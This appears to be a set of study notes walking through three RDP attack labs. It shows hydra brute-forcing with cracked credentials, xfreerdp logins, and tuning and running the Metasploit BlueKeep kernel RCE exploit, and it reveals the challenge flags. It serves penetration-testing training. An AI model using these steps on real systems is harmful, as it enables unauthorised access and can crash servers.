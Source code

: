 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> - Target IP: `10.4.18.131`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.18.131

nmap -sV 10.4.18.131
```

```bash
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

![](.gitbook/assets/image-20230314205710077.png)

- Use Metasploit [rdp_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/) module to check if port `3333` is running RDP.

```bash
msfconsole
```

```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.4.18.131
set RPORT 3333
run
```

![Metasploit rdp_scanner](.gitbook/assets/image-20230314210003571.png)

> 📌 The **RDP is exposed on target port `3333`**, and not on the default port `3389`.

### RDP Brute-force

- Try `hydra` to find valid username and password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333
```

```bash
[3333][rdp] host: 10.4.18.131   login: sysadmin   password: samantha
[3333][rdp] host: 10.4.18.131   login: demo   password: victoria
[3333][rdp] host: 10.4.18.131   login: auditor   password: elizabeth
[3333][rdp] host: 10.4.18.131   login: administrator   password: qwertyuiop
```

![hydra](.gitbook/assets/image-20230314210954773.png)

- `freerdp` cannot be used in this lab
- Use **`xfreerdp`** to connect to target via RDP

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333
```

![xfreerdp RDP connected](.gitbook/assets/image-20230314211206593.png)



<details>
<summary>Reveal Flag: 🚩</summary>


`port-number-3333`

![](.gitbook/assets/image-20230314211258633.png)



</details>

------

## Lab 2 - BlueKeep (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `RDP` service on default port `3389`.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool:
> - Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
> - ❗ **Targeting Kernel space memory and apps can cause system crashes.**

- *The attacker can remotely execute arbitrary code by gaining access to a chunk of kernel memory, without authentication.*
- BlueKeep **PoC**'s (**P**roof **o**f **C**oncepts) and exploits could be **malicious** in nature, use only verified exploit code and modules.

![Metasploit BlueKeep modules](.gitbook/assets/image-20230314213952365.png)

- Target RDP activated:

![](.gitbook/assets/image-20230314213648795.png)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](.gitbook/assets/image-20230314175805319.png)

> - 📌 RDP Port `3389` is open

### Exploitation

```bash
msfconsole
```

```bash
search bluekeep
use 0 # Module auxiliary/scanner/rdp/cve_2019_0708_bluekeep ID
set RHOSTS 192.168.31.131
exploit
```

![Metasploit cve_2019_0708_bluekeep](.gitbook/assets/image-20230314214843974.png)

```bash
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
exploit
```

![](.gitbook/assets/image-20230314222031244.png)

![Metasploit cve_2019_0708_bluekeep_rce](.gitbook/assets/image-20230314220044989.png)

![Win Server 2008 R2 crash](.gitbook/assets/image-20230314222843050.png)

> ❗ **Kernel CRASH can be caused by this exploit, so pay attention on production environment** ❗

#### Adjusting the exploit

- To make the exploit work, I've used the [Pentest-Tools blog on BlueKeep](https://pentest-tools.com/blog/bluekeep-exploit-metasploit) and [Alexandre Vieira blog post](https://alexandrevvo.medium.com/testing-bluekeep-cve-2019-0708-metasploit-module-on-windows-7-ef3f28217b7b).
- On WinServer2008 target, open `regedit`
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
  - Set `fDisableCam` reg key on `0`

![](.gitbook/assets/image-20230314222313593.png)

#### Finding the NPP

- To make the exploit work, it needs the correct GROOMBASE value which is the start address of the [Non Paged Pool area](https://docs.microsoft.com/en-us/windows/win32/memory/memory-pools) (NPP).
- The NPP address can be extracted from a memory dump of the target machine.
- In VMWare, take a snapshot of the target virtual machine (Win Server 2008 R2).
  - Download the [vmss2core tool](https://labs.vmware.com/flings/vmss2core;)
  - From the VM (virtual machine) folder copy the `.vmem` and `.vmsn` files to the `vmss2core` tool folder
  - Run the tool to generate a `memory.dmp` file

```bash
.\vmss2core-sb-8456865.exe -W "WinSrv_2008_R2_x64-Snapshot1.vmsn" "WinSrv_2008_R2_x64-Snapshot1.vmem"
```

- Run [WinDbg](https://apps.microsoft.com/store/detail/windbg-preview/9PGJGD53TN86?hl=en-us&gl=us) and open the `memory.dmp` file
  - Run `!polfind a` to get a message
  - That is the start of address of Non Page Pool, in this case **`fffffa8018c08000`**

![WinDbg](.gitbook/assets/image-20230314224629902.png)

- Edit the exploit and set the `GROOMBASE` variable if not already set.
  - In my case it is already set as the above address, for the `2008 R2 (6.1.7601 x64 - VMWare 15.1)` target number `5`.

![](.gitbook/assets/image-20230314225313177.png)

- Save the exploit file and run `reload_all` in the Metasploit interface.
- Set the GROOMSIZE to 50.

```bash
msfconsole
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
set GROOMSIZE 50
exploit
```

 ![BlueKeep RCE Success](.gitbook/assets/image-20230314225747271.png)

------

## Lab 3 (Extra)

> [Windows RDP: Dictionary Attack](https://attackdefense.com/challengedetails?cid=1954)
>
> - Target IP: `10.4.22.41`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```bash
nmap 10.10.4.22.41

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.22.41 -s 3389
```

![](.gitbook/assets/image-20230314235059534.png)

```bash
xfreerdp /u:administrator /p:bubbles /v:10.4.22.41
# default port is 3389
```

<details>
<summary>Reveal Flag: 🚩</summary>



`sysadmin-stephaie-123`

![](.gitbook/assets/image-20230314235250789.png)



</details>

------

